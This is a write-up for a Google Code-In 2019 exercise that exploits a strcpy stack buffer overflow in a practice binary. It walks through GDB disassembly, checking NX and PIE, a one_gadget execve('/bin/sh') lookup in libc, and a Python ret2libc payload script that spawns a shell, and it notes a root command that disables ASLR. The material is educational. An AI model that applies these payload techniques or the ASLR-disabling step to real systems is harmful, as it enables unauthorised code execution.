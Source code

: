 # Exploiting a buffer overflow vulnerability
## Google Code-In 2019 Task Write-Up
### We' ve got [executable](http://nishantparhi.me/gci/exploitme), we need to obtain root shell using it.

## Let' s put it into GDB and disassemble it.
```asm
   0x0000000008001145 <+0>:     push   rbp
   0x0000000008001146 <+1>:     mov    rbp,rsp
   0x0000000008001149 <+4>:     sub    rsp,0x110
   0x0000000008001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi
   0x0000000008001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi
   0x000000000800115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]
   0x0000000008001164 <+31>:    add    rax,0x8
   0x0000000008001168 <+35>:    mov    rdx,QWORD PTR [rax]
   0x000000000800116b <+38>:    lea    rax,[rbp-0x100]
   0x0000000008001172 <+45>:    mov    rsi,rdx
   0x0000000008001175 <+48>:    mov    rdi,rax
   0x0000000008001178 <+51>:    call   0x8001030 <strcpy@plt>
   0x000000000800117d <+56>:    lea    rax,[rbp-0x100]
   0x0000000008001184 <+63>:    mov    rdi,rax
   0x0000000008001187 <+66>:    call   0x8001040 <puts@plt>
   0x000000000800118c <+71>:    mov    eax,0x0
   0x0000000008001191 <+76>:    leave
   0x0000000008001192 <+77>:    ret
```

## Let' s decompile it using ghidra and decorate the code a little bit
```c
int main(int argc, char** argv) {
    char buffer[256];
    strcpy(buffer, argv[1]);
    puts(buffer);
    return 0;
}
```

## Okay, I have 256 bytes buffer. Can I just put a nopslide + shellcode and then redirect execution flow to it?
Unfortunetly no, I can' t. It' s compiled with ```NX Flag``` enabled, so stack is not executable. **¯\_(ツ)_/¯**
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   ./exploitme
```

## What about redirecting execution flow directly into ```execve()``` function in libc?
Let' s try. Check for ```execve()``` gadget with [one_gadget](https://github.com/david942j/one_gadget) tool. 
```
one_gadget /lib/x86_64-linux-gnu/libc-2.28.so
0x4484f execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x448a3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe5456 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```
Okay, I have got three gadgets with ```execve("/bin/sh")```, let' s go back to gdb and try using them.

I need to get direct memory address of this gadget, so let' s check ```libc``` offset in memory.
```
(gdb) info proc mappings
process 810
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
           0x8000000          0x8001000     0x1000        0x0 /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme
           0x8001000          0x8002000     0x1000     0x1000 /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme
           0x8002000          0x8003000     0x1000     0x2000 /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme
           0x8003000          0x8004000     0x1000     0x2000 /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme
           0x8004000          0x8005000     0x1000     0x3000 /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme
           0x8005000          0x8026000    0x21000        0x0 [heap]
      0x7fffff5e0000     0x7fffff602000    0x22000        0x0 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff602000     0x7fffff617000    0x15000    0x22000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff617000     0x7fffff618000     0x1000    0x37000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff618000     0x7fffff74a000   0x132000    0x38000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff74a000     0x7fffff796000    0x4c000   0x16a000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff796000     0x7fffff797000     0x1000   0x1b6000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff797000     0x7fffff79b000     0x4000   0x1b6000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff79b000     0x7fffff79d000     0x2000   0x1ba000 /lib/x86_64-linux-gnu/libc-2.28.so
      0x7fffff79d000     0x7fffff7a1000     0x4000        0x0
      0x7fffff7b0000     0x7fffff7b2000     0x2000        0x0
      0x7fffff7c0000     0x7fffff7c1000     0x1000        0x0 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7c1000     0x7fffff7cf000     0xe000     0x1000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7cf000     0x7fffff7d0000     0x1000     0xf000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7d0000     0x7fffff7de000     0xe000    0x10000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7de000     0x7fffff7df000     0x1000    0x1e000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7df000     0x7fffff7e6000     0x7000    0x1f000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7e6000     0x7fffff7e7000     0x1000    0x26000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7e7000     0x7fffff7e8000     0x1000    0x26000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7e8000     0x7fffff7e9000     0x1000    0x27000 /lib/x86_64-linux-gnu/ld-2.28.so
      0x7fffff7e9000     0x7fffff7ea000     0x1000        0x0
      0x7fffff7ef000     0x7ffffffef000   0x800000        0x0 [stack]
      0x7ffffffef000     0x7fffffff0000     0x1000        0x0 [vdso]
```
Okay, the place where libc starts is ```0x7fffff5e0000```.
Let' s start writing some exploit:
```py
#!/bin/env python
import struct
padding = '\x41'*(256+8) # overwrite buffer and rbp register]
execve = struct.pack('q', 0x7fffff5e0000+0x4484f)

print padding + execve
```

It' s time to execute this:
```
(gdb) run $(python2.7 gen_payload.py)
Starting program: /mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability/exploitme $(python2.7 gen_payload.py)
/bin/bash: warning: command substitution: ignored null byte in input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOHb
process 863 is executing new program: /bin/dash
$ whoami
[Detaching after fork from child process 868]
synnek
```
## Yaay, we got a shell. What about running it outside of debugger?
```
synnek@synnek-windows:/mnt/d/dev/gci-2019/exploiting-a-buffer-overflow-vulnerability$ ./exploitme $(python2.7 gen_payload.py)
bash: warning: command substitution: ignored null byte in input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOHb
$ whoami
synnek
$
```
It works, but sometimes you need to disable ASLR with:
```
echo 0 > /proc/sys/kernel/randomize_va_space
```
as root of course.

## Made by Emilian `synnek1337` Zawrotny